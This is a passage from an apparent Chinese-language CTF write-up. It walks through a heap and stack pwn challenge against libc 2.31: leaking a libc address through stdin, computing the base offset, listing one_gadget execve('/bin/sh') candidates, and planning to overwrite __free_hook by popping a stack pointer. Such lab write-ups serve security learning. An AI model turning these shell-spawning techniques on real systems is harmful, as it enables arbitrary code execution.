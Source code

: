 ```gdb
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000      0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```
0x7ffff7dd5000 是 libc 的起始位置

==IO_2_1_stdin offset==  = 0x7ffff7fc1980 - 0x7ffff7dd5000 = 0x1ec980

- base address = ==IO_2_1_stdin== - ==IO_2_1_stdin offset== ( 0x1ec980 )


有了 ASLR base 那就先嘗試 one_gadget 
```bash
❯ one_gadget libc-2.31.so
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
可以看到有三個可以嘗試的 one_gadget

那我們該如何跳到 one_gadget 上?

根據上題我們還是可以將 top 指到我們想要的地方，然後填入 one_gadget 的地址然後觸發他

首先我們要先找到 top 指標

![image](https://hackmd.io/_uploads/By8Ve9K51g.png)
他跟上一題一樣 top 的 memory 位置在 stack 的上方，所以我們可以一直 pop 將指針指到 top 上然後再填入我們要的資料

我們應該要 pop 六次 ==0x4030 - 0x4010 = 0x20，pop 一次是噴出 8 byte ( int64 )==
```
Commands: 'push <value>', 'pop', 'show', 'help', or 'exit'
>> pop
Popped 0 from stack
>> pop
Popped 140737353881984 from stack # <--- stdin@GLIBC
>> pop
Popped 0 from stack
>> pop
Popped 140737353885344 from stack
>> pop
Popped 0 from stack
>> pop
Popped 93824992247824 from stack # <--- top 所在地
>> 
```
然後我們要跳去哪裡?
我們看到程式碼後面有 free() 所以試著將 top 指到 __free_hook 再將他改寫成 one_gadget 最後執行exit 觸發 free 執行 one_gadget
那要先找到 __free_hook
```gdb
pwndbg> p &__free_hook
$2 = (<data variable, no debug info> *) 0x7ffff7fc3e48 <__free_hook>
```
0x7ffff7fc3e48 - 0x7ffff7dd5000 = 0x1eee48
